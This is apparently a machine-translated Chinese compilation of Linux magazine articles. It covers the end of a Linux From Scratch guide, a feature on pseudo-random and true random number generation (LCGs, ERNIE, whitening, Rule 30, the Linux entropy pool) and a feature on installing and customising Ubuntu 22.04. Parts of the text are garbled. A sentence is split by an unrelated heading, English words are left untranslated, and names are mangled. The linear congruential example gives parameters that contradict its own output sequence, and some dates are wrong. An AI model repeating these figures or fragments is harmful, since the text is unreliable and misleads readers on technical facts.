- 11.1 节以恰如其分的标题“结束”，要求你在 `/etc/LFS-release` 和 `/etc/release` 文件中记录该发行版，这可以被认为是类似于在你刚完成的画作上签名。

此时，你可以重启系统（如果 LFS 将继续留在其构建的机器上），或者你可以使用该系统（8.5 节提到，克隆一个系统就像重新托管根目录一样简单，将其移动到另一台具有相同架构的机器和目录中，然后根据需要调整一些配置文件）。

### 真正、深刻且随机

随机数对于日常生活的许多方面至关重要，但它们的生成并不像我们想象的那么简单。**Mike Bedford** 将带领我们走进随机数的迷雾世界，看看它是如何实现的。

我们这里的主题是随机数以及如何生成它们。老实说，如果你觉得这像粉刷墙壁一样令人入迷，我们也不会责怪你。

此外，如果我们引用定义——“随机数是根据某种指定分布从一组数字中选出的，使得某种力量决定底层分布”——无论这意味着什么，它可能会加强你的看法。不过我们必须承认，我们提出那个特定的数学定义纯粹是为了恶作剧，我们保证会尽全力让你保持兴趣。

事实是，生成随机数并不像我们希望或预期那样简单。在本文中，我们将深入探讨广泛的技术，虽然在这里不常被提及，但它们并不涉及难以理解的数学。

如果你想了解何时需要随机数、如何产生随机数，什么是熵池以及为什么 Linux 要维护一个熵池，以及某些英特尔处理器如何使用特殊硬件生成真随机数，那么你首先会对随机数感兴趣。在这种情况下，请继续阅读。但如果你认为这个练习会帮你赢得蒙特卡洛赌场的巨额奖金，那么我们建议你重新考虑。

在进入随机数生成的内核之前，让我们先探讨为什么需要它们。毕竟，如果没有实际应用，任何对随机性的研究似乎都不过是一场纯粹的学术练习。对我们中的许多人来说，委婉地说，这并不会特别吸引人。

那么，随机数是如何使用的呢？如果你是一名编程人员，你会意识到大多数编程语言都提供随机数函数，而且你可能自己就使用过。例如，你可能在电子游戏中通过它来确保每次启动时的游戏体验都不同。事实上，游戏是随机数的一个关键应用，比如在发牌前洗一副牌，为迷宫创建新的随机布局，或者决定俄罗斯方块中新方块的形状。


如果我们将“游戏”一词扩展到包括赌博，这里就来到了随机数的另一个应用：这里的赌注就是金钱——字面意义上的——这对数字的随机程度提出了更高的要求。传统上，这种不可预测性由轮盘或洗好的扑克牌提供，但计算机的出现改变了这一切。因此，虽然用户在屏幕上看到的是赌场传统设备的呈现，但这一切都由电子生成的随机数流驱动。

随着计算能力的持续增加，正如我们稍后将看到的，我们会接触到随机数的许多其他用途之一。或许今天随机数的主要用途是在密码学中，受益者包括政府、军火商、金融机构，以及任何对笔记本电脑硬盘加密或使用网上银行、在线购物的人，仅举几例。

### 随机代码

在大多数编程语言中，生成一个随机数通常只需调用一个内置函数。但在幕后发生了什么？ there 有一系列算法，但我们将看一种最简单的方法：随机数是以序列形式生成的，基于一个简单的示例，由如下公式定义：$x_{n+1} = (a x_n + c) \pmod m$。

用简单的话说，序列 $x$ 的每个值是通过取其前一个值，乘以常数 $a$，加上 $c$，然后对结果取模 $m$（换句话说，就是结果除以 $m$ 的余数）而获得的。不同的实现使用不同的 $a$ 和 $m$ 值，例如，Sinclair ZX81 家用电脑使用的 $a = 31441$ 且 $m = 48272$。

如果你写一段简单的代码，或者在 LibreOffice Calc 的工作簿中操作，并将 $x$ 的第一个值设为 1，你会发现接下来的几个结果是 75, 5625, 28653, 57307, 以及 19062, 53643 等。显然，在如此小的样本量下，我们无法凭眼力预测下一个数字是什么。提供给用户的随机数可能是也可能不是内部值 $x$。然而，很明显，这样的代码将始终生成相同的数字序列，这在某些情况下很有用，例如在调试代码时。


然而，这种可重复性通常是不可取的，在这种情况下，会使用一个“种子”作为 $x$ 的初始值。通常，这个种子源自某个近似随机的值，例如以毫秒为单位的系统时钟。现在，每次你运行相同的代码生成随机数时，几乎可以肯定你会得到一个不同的序列。

现在是探讨我们之前好奇的问题的好时机，即“什么时候随机数不是随机数？”这个悖论问题的答案是：当随机数是一个伪随机序列时，就像我们目前看到的这种类型。虽然这些数字具有随机数的一些理想属性——例如，数字不表现出可识别的模式——但在一个重要方面，它们不是随机的。特别是，正如我们所见，这些随机数处于一个固定序列中，这并不奇怪，因为它们是由计算机生成的。

对于某些应用来说，这不是问题，但在加密领域，如果随机数被用作密钥，这将带来巨大的风险。如果有人获得了随机数生成器的内部状态——例如，我们提到的值 $x$。

### 毕竟并非那么随机

我们认为随机的一切并不完全像看起来那样。例如，研究表明某些硬币具有内在的偏差，因为一面比另一面重，因此正面或反面的概率并非完全相等。轮盘赌也不随机——结果是完全可预测的，受物理定律支配，但在叫出“停止下注”之前，仍然可以下注几秒钟。在 20 世纪的大部分时间里，这意味着轮盘赌成了将人们赚来的钱剥离的绝佳手段；这对赌场来说不是问题，但这一切在 20 世纪 70 年代发生了变化。

在 dodgy Farmer 和 Norman Packard 的带领下，一群加州大学圣克鲁兹分校的学生在鞋子里造了一台计算机。它基于一个 8 位 6502 微处理器，目的是在拉斯维加斯的轮盘赌桌上赢钱。而且，它奏效了。尽管他们必须小心翼翼地操作以不引起赌场老板的注意——事实上他们担心这会让他们被赶出去——但这组人还是实现了 44% 的利润。事实上，他们如此成功，以至于在他们公开成就后不久，内华达州就出台了立法将此类技术定为犯罪。

虽然体积小得多，但今天的许多真随机数生成器 (TRNG) 都可以追溯到最初的 ERNIE，它在 1959 年首次用于抽取 Premium Bond 中奖者。

彩票机能产生高质量的真随机数，但对于大多数其他应用来说，速度还远远不够快。


# Linux Format 2023 年度回顾

到早些时候——它们可以计算出下一个内部状态以及所有未来的状态，潜在地使随机数保持可预测性。

### 走进物理世界

真正的随机数并非通过算法生成的。相反，它们依赖于物理世界中不可预测的事物。这可以实现自动化，这里不由得想到抽奖机。这些机器的设计初衷是为了在电视上营造视觉盛宴，而且它们完成得非常出色，但如果你的应用程序需要长串的随机数，从一个机械装置中提取编号球显然不会很快就无法满足需求。

早在 1956 年，英国财政大臣哈罗德·巴纳比·麦克米伦（Harold Barnaby Macmillan）宣布推出优质债券（Premium Bonds）。这是一种不支付利息的储蓄债券，但所有持有者都会参加每月的奖金抽奖。中央抽奖债券使用了一种在当时被称为“神奇奇迹”的设备，名为 ERNIE，即“电子随机数指示设备”（Electronic Random Number Indicator Equipment）。它不是一台电子计算机，而是一个用于生成真正随机数的电子设备。它在圣诞节前 10 天随机抽取数字，虽然按照当时的标准它是一门艺术，但其行业秘诀——利用噪声作为随机源——至今仍在使用。

当我们谈论噪声时，是指一种电效应。通常情况下，噪声是一种干扰，但在随机数生成中，它是一个帮手。简单来说，

> 像 OneRNG 这样的真随机数生成器价格低廉，并具有开源和硬件设计的优势。

许多电子元件容易产生微小的电压波动，这是由于热效应、电磁效应甚至量子效应引起的。因此，如果你放大这些微小信号，并定期对电压进行采样以获得 0 和 1，你最终会得到一串随机位。由于没有两个位是完全相同的，这些就是真随机数，因此该序列永远不会重复。

从最初占据整个房间的 ERNIE 开始，真随机数生成器现在已变得十分普遍。从 Pentium III 开始，许多英特尔 CPU 都包含了基于噪声的随机数生成硬件，可以通过随机数生成指令来访问。英特尔或许没有公布详细细节，但其他人随后推崇这种方法，是因为担心英特尔可能被强迫提供后门，以便执法机构能够预测随机数。这是一个令人担忧的问题，不过你可以购买一个相对便宜的 USB 设备，它基于开源设计，充当物理随机数生成器。

关于真随机数生成器的最后一个想法是，思考这些物理源究竟有多随机是非常有趣的。在某些情况下，该数据流可能会出现偏差。也就是说，它看起来可能（至少在开始时）是不均匀的。为了阐明这一点，请看图表（左侧）的上半部分，这是一个经过适当放大的电噪声源。乍一看它很随机，但当涉及到 0 和 1 的序列时（如第二部分所示），我们发现数据中包含几串重复的 0 或重复的 1。这取决于采样的频率，为了夸大这些重复现象，我们特意降低了采样率，但在实际系统中这种情况通常会发生。此外，采样数据通常包含的 0 比 1 多，或者反之亦然。这并不是一个致命问题，但这意味着需要某种形式的后处理，因为数据流是一个可持续的随机数源。

TRNG（真随机数生成器）依赖于噪声源（顶部），然后将其转换为二进制字符串（中间），最后通过处理以去除长重复字符串和偏差（底部）。

处理的一个关键环节称为“白化”（whitening）——这个词源于“白噪声”。在这里，比特位成对处理。如果比特对是 (0, 0) 或 (1, 1)，则将其忽略。如果是 (0, 1)，则在白化后的累加数据流中生成一个 1；如果是 (1, 0)，则生成一个 0。处理后的数据总是比输入的二进制数据短，有时短得多（如你可以在图表底部看到），但新的数据流更接近真正的随机序列。

> 大多数一维细胞自动机从随机起始字符串开始生成图案，正如彩色页面所示。相比之下，如图中黑色所示的规则 30 可以被用作 PRNG（伪随机数生成器）。

### 随机自动机

如今许多 PRNG 使用的算法在原理上与我们之前看到的示例并没有太大区别。但世界上应用最广泛的 Wolfram 编程语言（Mathematica 的一部分）则截然不同。欲了解更多信息，请访问 https://bit.ly/1X38Z20。

你可能熟悉数学上的奇趣之作“生命游戏”（Game of Life），它是一个二维细胞自动机（CA），但一维 CA 则较少为人知。其中一种类型涉及一个由 0 和 1 组成的直线初始图案，通过一组简单的规则将该图案从一代转换为下一代，这些规则与每个单元格的值及其两个最近邻居的值相关。为了将此过程可视化，每一代都被表示在其前一代之下的屏幕上。总共有 256 种可能的规则，每种规则由一个 8 位数字表示，它们的行为截然不同。有些在第一代之后全部变成 0 或 1，有些则显示出有序的图案，这些图案可能是简单或复杂的，例如 Stephen Wolfram 的规则 30。

然而，规则 30 惊人地随机，因为无论是以单个 1 作为第一代还是使用随机种子，其输出都是伪随机的。中间单元格的演化经常被用作随机数，尽管会反复出现三角形图案，但它通过了许多随机性测试。

### 两全其美

你可能会得出结论：伪随机数生成器 (PRNG) 是糟糕的，而真随机数生成器 (TRNG) 是优秀的。如果事情真的这么简单就好了。这看起来可能违背直觉，因为我们倾向于认为硬件是快速且确定性的——事实并非如此，但 PRNG 往往比 TRNG 更快。因此，如果你不需要在“不遵循任何模式”意义上可证明的随机数——并不是所有应用程序都需要这样，游戏和模拟就是典型的例子——那么 PRNG 对你来说会更好。密码学似乎是确实需要 TRNG 的主要应用之一，但生成足够数量的数字且速度足够快可能会成为一个瓶颈。幸运的是，还有第三种选择，即密码学安全伪随机数生成器 (CSPRNG)。

CSPRNG 有两种方法，一种是软件方法，另一种则是有时使用硬件元素的算法。我们不会陷入复杂的数学计算中，因此将略过纯软件解决方案。我们只需说明，其中一种方法涉及对 PRNG 的输出进行加密，尽管这在分发和管理方面增加了进一步的复杂性。而软件-硬件方法则非常容易理解，让我们看看它是如何实现的。这种类型的 CSPRNG 是一个 PRNG，它频繁地使用 TRNG 的输出来重新播种（re-seed）。因此，即使攻击者知道你使用的是哪个 PRNG 算法并设法推断出内部状态（这绝非易事），他们在系统重置之前也只能预测几个未来的数字。

那个真随机数可能来自基于物理的 TRNG，但还有另一种获取真随机数（或至少是近似真随机数）的方法。这就把我们带到了 Linux 的熵池（entropy pool）。熵是随机性或混乱程度的一种不可预测的度量。根据热力学第二定律，宇宙的熵在不断增加。

回到熵池，这是一个由操作系统维护的数字列表，代码可以从中分别生成随机数。这些数字来自与硬件相关的源，例如设备驱动程序，并包括以毫秒为单位的系统时间、随机间隔和目的发生的按键和鼠标移动，且是真正随机的。虽然我们将熵池介绍为频繁为 PRNG 重新播种的一种手段，但直接使用其内容也是可能的。然而，考虑到熵提供给池的速度，如果你将其作为随机数据源来安全地删除硬盘上的数据，可能会花费很长时间。

### 来自“噪声”的随机性

> “许多电子元件容易产生微小的电压波动……”

### 虚拟 ERNIE

在 LFX，我们非常热衷于通过模拟多年前的重要机器来探索我们的计算机遗产。因此，推出虚拟 Ernie 显得很合适，你可以在 https://virtualconsoles.co.uk 找到它。

首先，只需将其运行起来，你就可以看到它生成随机数。点击控制台右面板上的 Start 开关。开关上方的绿灯将亮起以显示其正在运行，然后放大方波，选择足够高的倍率以读取这些数字。

> 使用这个在线模拟器，你可以了解 ERNIE 的工作原理——它是最早的真随机数生成器之一。


### 坚不可摧的 UBUNTU 22.04

### Jonni Bidwell 表示，瓦普吉之夜（Walpurgis Night）即将到来，快抛弃你的旧操作系统，用 Ubuntu 22.04 开启新生活吧。

十八年前，由点康大亨兼太空游客 Mark Shuttleworth 领导的 Canonical 公司发布了第一个 Ubuntu 版本。这简直是一场革命。突然之间，Linux 变得如此美观。网络自动配置，开箱即用，那个辉煌的（虽然是棕色的）Gnome 2 桌面也是如此。它基于 Debian 并继承了其稳定性声誉，但它不仅仅是 Debian。它是一种特别的存在。

一个庞大的社区在 Canonical 周围聚集，后者承诺将倾听用户的声音，使其变得更简单。Launchpad 被建立起来，提交的第一个 bug 是“微软占据了大部分市场份额”。对许多人来说，Linux 的黄金时代即将开始。但随着时间的推移，人们感觉到 Bug #1 很快就会被解决。

快进到今天，你会发现并非所有梦想都实现了。Windows 11 几乎没有太大进步，而 MacOS 和 ChromeOS 正在吞噬市场。普通的桌面计算整体上正成为一种小众爱好，因为我们的大量浏览和通信现在是通过智能手机完成的（其中一些运行 Linux，但不是“真正的” Linux）。桌面 Linux 依然充满活力，但生态系统仍不完美。大量的桌面选择以及众多流行发行版的衍生版本，导致了不幸的分裂（来自那些不理解开源软件和自由意志的人）。而 Canonical 在放弃 Unity 和 Ubuntu Phone 时也承受了大量指责。

但并非全是坏事。企业已经接纳了 Linux，尤其是 Valve。它在 Proton 上的工作使得约 5,000 款仅限 Windows 的游戏可以在 Linux 上运行。而且 Ubuntu 依然极其受欢迎。

这是一个非常适合玩上述游戏、处理电子表格或管理云端的 Linux 发行版。现在 Canonical 回来了，带来了一个名为 Jammy Jellyfish 的全新版本。它整合了最新 Gnome 42 桌面的部分特性。向 Wayland 显示协议的切换终于实现了。全新的 Pipewire 多媒体框架已被编织进其架构之中。而且这是一个长期支持（LTS）版本，这意味着你可以连续使用整整五年。

你不会发现什么惊天动地的用户界面变化，但你会发现一个出色且可靠的操作系统。继续阅读以了解原因……

### 关于果酱与果冻

### 到了 Ubuntu LTS 的时间，让我们看看未来几年 Ubuntu 将会呈现什么样的形态……

我们总是期待尝试新的 Ubuntu 版本。但这一次，我们并不期待一个天翻地覆的桌面范式重构或巨大的性能飞跃。之前的 Ubuntu LTS 版本 Focal Fossa 在经历了意外的波动开局后，成为了许多机器忠实的仆人，我们确信 Jammy Jellyfish 将是一个称职的继承者。我们期待 Gnome 42（尽管早期版本还有一些遗留问题）和更完善的 Wayland 体验，并且我们想看看 Canonical 如何推进其 Snap 计划。

只有一个问题。在撰写本文时，它尚未正式发布。但没关系，当你阅读本文时，它已经发布了。如果我们足够幸运，就不会错过任何最后一刻的添加或惊喜。在正式发布前的几周里，我们一直在测试 Jammy Jellyfish 的每日构建镜像。

### 小修小补，大势之变

在那段时间里，我们看到了相当多的变化。特别是，最近发布的 Gnome 42 的部分内容开始融入其中。事实上，在撰写本文时，距离发布仅剩一天，但由于功能冻结阶段已经结束，我们不预计会有任何剧烈的变化。不过，我们确实希望一些常见的小毛病（例如在显示器之间拖动窗口时的卡顿和偶尔的崩溃）能得到解决。

如果你在上次 LTS 之后使用了中期版本（21.04 或 21.10），那么你就会意识到 Ubuntu 现在使用了 Wayland（可能还记得安装程序中就可以设置活动目录 Active Directory）。你会发现 Yaru 主题有亮色和暗色版本，并且你会怀疑（且正确地怀疑）这些版本得到了进一步微调。坦率地说，如果你一直在使用 Ubuntu 21.10，你在 22.04 中不会注意到任何突破性的变化。但这并不意味着你不应该升级。你应该升级，因为即便没有其他原因，你的中期版本也即将达到寿命终点（EoL）。哦，如果你是那种被“现代设计趋势”之类词汇吸引的传统派，请看看新外观。它类似于旧的 Circle of Friends 标志，但位于一个对 Web 友好的（亲爱的读者，请停止称它为 bindi！- 编辑注）矩形背景上。

如果你只想看看 Ubuntu 是什么样的，不需要完整安装。只需跟随我们便捷的三步指南来下载、写入并引导 Ubuntu USB 闪存盘，或者如果你必须的话，使用 DVD（抱歉 - 编辑注）。

官方背景图在下一页，但 Jason Butcher 创作的这些 AI 生成的水母则完全是另一种风格。

### 下载并启动 UBUNTU

- 1. **下载 ISO**: 访问 https://ubuntu.com/desktop 并下载 ISO 文件。它大小为 3.5GB，所以你可能想在喝茶的时间等它下载完毕。如果你有兴趣尝试其他版本，例如 Kubuntu 或 Lubuntu，可以在 https://ubuntu.com/download/flavours 找到链接。你也可以在这里找到 Server、Pi 和 Core 版本的链接。
- 2. **写入 USB 闪存盘**: 使用你喜欢的镜像写入工具（或从 https://www.balena.io/etcher/ 下载 Balena Etcher）将 ISO 写入 USB 闪存盘。在提示可以安全移除之前，请勿移除介质。劣质介质会导致后续出现问题。你也可以（使用不同软件）制作 DVD，但这会比使用闪存介质慢。
- 3. **启动 Ubuntu**: 你的机器可能允许你在启动时按下 F12 或 F10 来调用启动菜单。如果可以，请使用它从启动介质启动 Ubuntu。否则，你需要进入 UEFI/BIOS 设置界面并更改启动顺序。请参阅官方文档 https://ubuntu.com/tutorials/try-ubuntu-before-you-install。

### 逃离 Windows

无论你是完全的新手，还是被 Windows 逼得去寻找其他操作系统的用户，Ubuntu 都能帮到你。

Windows 11 自去年底以来已通过 Insider 计划推出。到你阅读本文时，所有 Windows 10 用户很可能都已经收到了升级邀请。没有什么比发布新操作系统更能激励人们转向 Linux 的了。所以，这里为最近的 Windows “叛逃者”提供一份快速指南。

你可能会想尝试 Windows 和 Ubuntu 双启动。这听起来很方便，但陷阱重重；如果在安装 Ubuntu 之前没有处理好，它将与 Windows 并存，但无法预料日后 Windows Update 是否会心血来潮地破坏 Linux 分区，导致其无法启动。因此，我们不建议将两个操作系统安装在同一台设备上。一个 250GB 的 SSD 是你第一次探索 Linux 的理想选择，你大约可以用 25 英镑买到一个新的。

我们接下来的谨慎建议或许过于小心，且有点不方便，但这是确保 Windows 不会触碰你的 Linux 的唯一方法：在启动进入 Windows 之前拔掉该 SSD。是的，这很难记住，执行起来可能也很尴尬（比如你的机箱在桌子下面），但至少你可以认为你的安装与 Windows 实现了“物理隔离”。

最好的办法是将 Ubuntu 安装到外置硬盘或 USB 闪存盘中，尽管如果你没有使用 USB3 存储，性能将不会太好。最理想的情况是将其安装在一台全新的机器上，但并非每个人都有多余的可用机器。

### BIOS 与预设 UEFI

现代 PC 使用的是更新的固件——通用可扩展固件接口（UEFI），而不是传统的旧 BIOS。UEFI 机器可能具有经典 BIOS 仿真模式，但你几乎肯定不应该启用它。尤其是如果你已经以 UEFI 模式安装了操作系统（它们将停止工作）。

- 1. **活动（Activities）**: 点击此处或按下 Super 键（Windows 键）以唤出活动概览。这将显示打开窗口的预览，你可以将它们拖到右侧，将其移动到新的虚拟桌面。
- 2. **停靠栏（Dock）**: 提供对常用应用程序的快速访问。运行中的应用程序由红点标出。右键点击可将应用程序固定或取消固定。
- 3. **应用程序网格**: 显示所有当前安装的应用程序。左右滚动字符以缩小列表范围。如果你喜欢，也可以通过这种方式找到表情符号。哦，这里还有一个虚拟桌面切换器。
- 4. **桌面选项**: 右键点击可更改背景或显示设置。你还可以创建桌面文件夹。
- 5. **状态区域**: 网络、音量和电源指示器。点击可访问蓝牙、亮度以及（对于笔记本电脑）电源配置文件设置。注销和关机选项也在这里。
- 6. **通知区域**: 提醒事项，例如有可用新软件或正在播放内容的提醒。这里还有一个日历——它可以本地使用，也可以连接到云服务。


请注意，如今的电脑在进入 UEFI 设置或调用启动菜单时可能非常挑剔。可能需要精确的时机把握、多次按键，以及翻阅手册以寻找合适的快捷键。Ubuntu 的 EFI 启动加载程序均由微软认可的密钥签名，因此无需禁用安全启动（Secure Boot）。

需要注意的一点是，启动 UEFI 系统需要一个 EFI 分区。如果您计划将 Ubuntu 安装在独立的安装盘上，请确保“启动加载程序安装设备”设置为原始驱动器，并选择了 EFI 分区。启动任一操作系统都需要插入此驱动器，但您可以选择从哪个系统中启动。

成功启动 Ubuntu 后，系统会询问您是想试用 Ubuntu 还是直接安装。由于您尚未试用，我们建议先试用。这样您可以在不触及任何存储设备的情况下感受该操作系统。您可以试用内置软件，安装新东西，看看它是否适合您。在试用过程中，您可能会发现某些地方不完全符合需求。哦，还有一件事，当然，重启后您所做的任何更改都将丢失。下面的注释（左下方）显示了 Ubuntu Gnome 桌面环境的路由。

与其他操作系统一样，您会发现用于存放文档、照片和下载的文件夹，但与至少另一种操作系统不同，您不会被营销广告或试图“帮您”的语音助手所轰炸。左侧的 Dock 区域是对 Ubuntu 旧版 Unity 桌面的致敬。自 Ubuntu 18.04 以来，新桌面一直基于 Gnome 3，但进行了一些可用性调整。Gnome 3 在 2008 年推出（“过渡期”）时被一些人认为过于雄心勃勃，偶尔有 Bug，且极其占用内存，但 Ubuntu 调整了其设计形式，经过这么多版本的迭代，其稳健性已成为一种证明。如果您仔细观察 Dock，您会发现它解决了主 Gnome 问题中的许多“传统”问题。

> 不知道先安装什么？让 Snap Store 给你启发，并找到你的更新目标！

### 使用稳如磐石的 GNOME

> “自 Ubuntu 18.04 以来，新桌面一直基于 Gnome 3，但进行了一些可用性调整。”

这里没有明显的启动应用程序菜单。Dock 提供的应用程序网格并不完全一样，但如果您习惯于使用鼠标打开传统位置的应用程序菜单，那么您的肌肉记忆更有可能将您引导至此处，而非“活动（Activities）”视图。

在纯净安装中，Dock 区域有 Firefox、Thunderbird 和 LibreOffice Writer 的快捷方式。问号图标将带您进入桌面指南，希望它能回答您的任何疑问。您还会发现 Ubuntu 软件（购物袋图标）的链接，以备您想安装更多软件，以及老牌的 Rhythmbox 音乐播放器。内部和外部驱动器也会在这里显示，此外还有一个可以找回删除文件的回收站。

如果您在分区方面有明确要求，那么安装程序中的“其他选项（Something Else）”将有所帮助。

### 成为键盘战士

在 OLED 屏幕和 4K 显示屏的时代，鼠标光标向左上角的“朝圣之旅”可能极其艰辛。通过键盘快捷键的魔力，这段旅程可以被简化。除了用于唤出“活动”视图的重要 Super (Windows) 键外，以下知识可以让您在 Gnome 中的生活得到改善（编辑注：真的能改善吗？）：

- Ctrl+Super 左/右 → 窗口平铺至左/右
- Super+A → 显示应用程序网格
- Super+PgUp/PgDown → 切换虚拟桌面
- Shift+Super+PgUp/PgDown → 将窗口移至上一个/下一个工作区
- Shift+Super 左/右 → 将活动窗口移至上一个/下一个显示器

### 定制 Ubuntu

发现新软件。更改设置。安装一个（或三个）新桌面。

Ubuntu（以及大多数其他桌面 Linux 发行版）旨在直观且易于学习。然而，迟早您可能会想更改一些设置。例如，我们认为 Rhythmbox 很棒，它自始至终一直是 Ubuntu 的默认音乐播放器（仅在 2011 年 Banshee 取代它期间有短暂中断）。但在目前的 GNOME 桌面装饰下，它看起来过时了，且无法连接到流行的（尽管是私有的）流媒体服务，因此我们可能想寻找替代方案。到此为止，我们假设您已经安装了 Ubuntu，并体验了其全新的 Flutter 构建的安装程序。

启动 Ubuntu 软件应用程序，向下滚动到类别列表并选择“音乐和音频”。您会看到一系列音频程序，其中大多数我们从未听说过。不过，您会发现官方的 Spotify 和 Audible 程序，以及 Deezer、YouTube、Google Play Music 和 Apple Music 的非官方播放器。如果您更喜欢怀旧风格，还会发现 RootPlayer、DeadBeef（一个极简的 GTK 播放器）以及无数基于文本的音乐播放器。点击绿色的“安装”按钮，安装 Spotify（或任何符合您口味的软件）。

软件应用程序中的大多数应用都以 Snap 包的形式提供。您可以在右上角的“来源（Source）”框中看到分发机制。Snap 是一组经过审核的容器化软件包，但类似的方案（如 Flatpak）使软件能够轻松发布，而无需担心特定发行版的打包方式和所使用的库版本。Snap 同样作为沙箱应用运行（除非您授予了其他权限），因此它们无法访问不需要的任何文件或硬件。

### 桌面选择

Ubuntu 22.04 有多个风味版本，它们拥有与旗舰版一样稳固的基础，但采用了不同的桌面环境。如果您喜欢 Ubuntu 但不喜欢现代 Gnome，那么 Kubuntu、Xubuntu、Ubuntu MATE（灵感来自 Gnome 2）或由轻量级 LXQt 驱动的 Lubuntu 都非常值得关注。但与其安装一个全新的 Ubuntu，您可能更倾向于直接在现有安装中添加一个新的桌面环境。令人惊讶的是，会话包包含了每个桌面的核心配置。因此，您最终可能会拥有两个（或更多）文件管理器、文本编辑器之类的东西。

一些桌面还自带登录管理器。例如，如果您安装 `kubuntu-desktop` 包，系统会询问您是想切换到 Gdm3 还是 SDDM。但我们将坚持使用 GTK，以便我们的模型保持一致。这没有正确或错误之分，完全取决于您的选择。其他桌面包的命名类似，例如有 `ubuntu-mate-desktop` 和 `xubuntu-desktop`。其中大多数都有精简版本——例如，`lubuntu-core` 将安装更少量的应用程序。

### 走在最前沿的生活

有时在“来源”框中，您会看到一个 Snap 可用的多种不同“渠道（channels）”。这些渠道通常允许您获取 beta 或开发版本，以备您想体验最前沿的功能。系统包仍然以 deb 包形式安装，因此您仍然可以通过命令行（使用 `apt`）安装数以千计的传统软件包。但这些包不再显示在“软件”应用程序中；如果您安装 Synaptic，就可以通过图形界面浏览这些包。

Canonical 投入了大量努力，确保许多流行应用可以作为 Snap 提供。除这些之外，您还能找到 Spotify、Telegram、Slack、Blender、Gimp 以及用于 Python 的 PyCharm 开发环境。此外还有一些经典游戏的开源版本，包括波斯之王 (SDLPyP)、Open Jedi Knight 等。

安装整个 Kubuntu 桌面包会产生一个菜单，不出所料，其中充满了以 K 开头的项目。

广告拦截器和 Mozilla 的容器程序（Container programs）对于现代网络至关重要，将默认搜索切换为 DuckDuckGo 同样如此。


怎么了，伙计？在这里我们将 Dock 栏放在了底部，移除了各种杂物，并使其变得更短。

这次 Ubuntu 版本的一个重大变化是 **Firefox** 现在仅以 Snap 形式提供。这直接来自 Mozilla，节省了社区打包的精力（并迫使像 Linux Mint 这样的衍生版本构建和打包自己的版本）。在我们的测试中，每次从干净关机状态启动 Firefox 时大约有 10 秒的延迟，尽管这在每次启动后只发生一次；然而，浏览器通常是登录启动后第一个打开的程序，但希望未来的 Snap 启动时间能得到改进。

如果 Firefox 的启动缓慢（或一般的 Snap 程序）困扰你，社区成员提供了一个 PPA 来安装传统软件包（参见 **https://launchpad.net/~mozillateam/+archive/ubuntu/ppa**），或者从其 FTP 站点下载 tarball 包。或者，你可以使用解决该问题的其他方案：对于格式之争，可以从 Flathub 安装 Flatpak 和 Firefox。你的第一个操作可能是安装 uBlock Origin，以及 Mozilla 的 Facebook Container 和 Multi-Account Containers 插件，因为在 **LTS 20.04** 中，它们在 Fedora 中表现良好，但在 Ubuntu 21.10（以及 22.04 Fedora 35）中，发现 Snap 版本不支持所有的 VA-API 视频加速。幸运的是，Snap 能够处理一定的配置需求。前往 **about:config**（注意警告并设置它）并将 **media.ffmpeg.vaapi.enabled** 设置为 true。之后你可能还想将 **media.rdd.sandbox.enable** 设置为 false。这允许硬件加速的 WebRTC（例如 Google Meet, Zoom, Teams, Jitsi）会话。在我们的测试中（在 Firefox 98, 99 和 101 中），通过 Snap 方式我们处理了使其在 RDD 沙箱中生存，之后似乎运行正常。这是一个安全风险，我们不会告诉你具体怎么操作，但如果你真的想尝试，你可以自己去 DuckDuckGo 搜索。

在那个特性中我们还看到，Snap 和 Flatpak 版本的 Firefox（以及 Chromium 和 Edge）都可以处理使用原生消息传递（Native Messaging）的扩展。由于情况依然如此，因此密码管理器扩展（以及硬件身份验证令牌之类的东西）目前无法与 Snap 和 Flatpak 等打包格式协同工作。我们很快会看到一个诚实的打包分类，但在此之前，这些插件只能在传统打包的浏览器中运行。在相关方面，作为 Snap 安装的 KeepassXC 无法在 Firefox 端进行集成，相反，你需要运行一个脚本，如其网站所述。

包含浏览器的另一个后果是旧的 **https://extensions.gnome.org** (EGO) 网站无法正常工作。如果你安装了 **chrome-gnome-shell** 和浏览器插件，那没关系，目前你可以使用第三方工具，例如 Extension Manager 来完成。该工具以 Flatpak 形式提供，因此你需要先安装 Flatpak 并设置 Flathub 仓库。即使你不关心 Gnome 扩展，你可能也想这样做，因为它为你提供了另一个获取更多软件的途径（和工具）。所以打开终端并运行：

```bash
sudo apt install flatpak gnome-software-plugin-flatpak gnome-software
sudo flatpak remote-add --if-exists flathub https://flathub.org/repo/flathub.flatpakrepo
```

这为 Gnome Software GUI 增加了对 Flatpak 程序的支持（该 GUI 由第一条命令安装）。因此在重启后，你可以在那里搜索 Extension Manager。请注意，Gnome Software 与通常的 Ubuntu Software 工具不同；它就叫 Software，并且有一个不同的购物袋图标。或者如果你喜欢使用终端，安装并运行（无需重启）所需的步骤是：

```bash
flatpak install com.mattjakeman.ExtensionManager
flatpak run com.mattjakeman.ExtensionManager
```

你会发现 Ubuntu 使用了三个 Gnome 扩展（用于桌面图标、应用指示器和 Dock 栏），其中两个可以配置。如果你导航到“浏览”选项卡，可以发现更多扩展。你可能已经有一些喜欢的 Gnome 扩展；请确保其中大多数已更新以支持 42 版本。如果不支持，Extensions Manager 将显示“Unsupported”。流行的“Blur My Shell”可以使用。同样还有 GSConnect，它是流行 KDE Connect 工具的 Gnome 化版本，可连接到你的手机以在桌面上处理多种任务。

左侧的默认任务栏并不在底部，尽管粉丝们声称它比放在底部更高效。你可能更喜欢完全去掉它，让桌面看起来更像在 Fedora 等系统中看到的原生体验。无论你希望 Dock 栏在什么位置，都可以通过启动设置（Settings）应用程序（通过右上角菜单或活动概览）并导航到外观（Appearance）部分来配置。

截图显示了一种稍微更正交的排列，除了似乎没有办法将应用程序网格（Applications Grid）快捷方式移到左侧，而传统主义者可能会更喜欢在那里，因为最可能的选择类似于经典的应用程序菜单。新的深色主题（现在应该可以通用地工作）也可以在外观部分启用。

Ubuntu 可以让你的各种工作区在访问多显示器时协同工作。

### 微调与重新配置

一些用于完善安装的最终编辑，以及一点 Ubuntu 的情怀。

Wayland 默认在 Ubuntu 17.10 中进行了测试，但这可能有点过于激进。现在这项技术已经成熟，Canonical 有信心它——套用一个令人厌烦的短语——已经“准备好迎接黄金时段”了：经过广泛测试，团队确信 Wayland 的体验对所有人来说都会很好。是的，即使是使用 Nvidia 图形硬件的用户。如果不行，也没关系。旧的 X11 会话依然存在。

